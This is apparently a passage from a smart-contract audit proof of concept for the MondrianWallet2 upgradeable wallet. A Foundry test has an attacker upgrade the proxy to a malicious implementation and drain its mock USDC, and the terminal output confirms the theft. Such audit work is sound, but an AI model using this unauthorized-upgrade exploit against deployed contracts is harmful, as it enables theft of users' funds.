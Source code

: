 ```diff
        implementation = new MondrianWallet2();
        maliciousImplementation = new Attack();
        ERC1967Proxy proxy = new ERC1967Proxy(address(implementation), "");
        mondrianWallet = MondrianWallet2(address(proxy));
        mondrianWallet.initialize();
        mondrianWallet.transferOwnership(ANVIL_DEFAULT_ACCOUNT);
        usdc = new ERC20Mock();
+        usdc.mint(address(mondrianWallet), AMOUNT);
-        vm.deal(address(mondrianWallet), AMOUNT);
    }

+    function testUpgradeToMaliciousAndClaimUSD() public {
        
+        vm.startPrank(attacker);
+        address wallet = address(mondrianWallet);
+        mondrianWallet.upgradeToAndCall(address(maliciousImplementation), "");
+        console2.log("success");
+        /// to see if attacker can claim usdc or not
+        /// let's try to claim usdc that it has

+        console2.log("----------------------------------------------------");
+        console2.log("-----------------CLAIM_ERC20------------------------");
+        console2.log("----------------------------------------------------");

+        console2.log("usdc balance of attacker before attack:", usdc.balanceOf(attacker));
+       console2.log("usdc balance of mondrian wallet before attack:", usdc.balanceOf(wallet));
+       Attack(wallet).claimERC20(address(usdc), 1e18);
+        console2.log("usdc balance of attacker after attack:", usdc.balanceOf(attacker));
+        console2.log("usdc balance of mondrian wallet after attack:", usdc.balanceOf(wallet));
      

   }
```

now run `forge test --mt testUpgradeToMaliciousAndClaimUSD -vv --zksync` and we get following output from the terminal.

```js
[⠒] Compiling...
[⠒] Compiling (zksync)...
[⠆] Solc 0.8.24 finished in 13.57s

Ran 1 test for test/ModrianWallet2Test.t.sol:MondrianWallet2Test
[PASS] testUpgradeToMaliciousAndClaimUSD() (gas: 112776)
Logs:
  success
  ----------------------------------------------------
  -----------------CLAIM_ERC20------------------------
  ----------------------------------------------------
  usdc balance of attacker before attack: 0
  usdc balance of mondrian wallet before attack: 1000000000000000000
  usdc balance of attacker after attack: 1000000000000000000
  usdc balance of mondrian wallet after attack: 0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.19ms (280.38µs CPU time)

Ran 1 test suite in 29.34ms (1.19ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
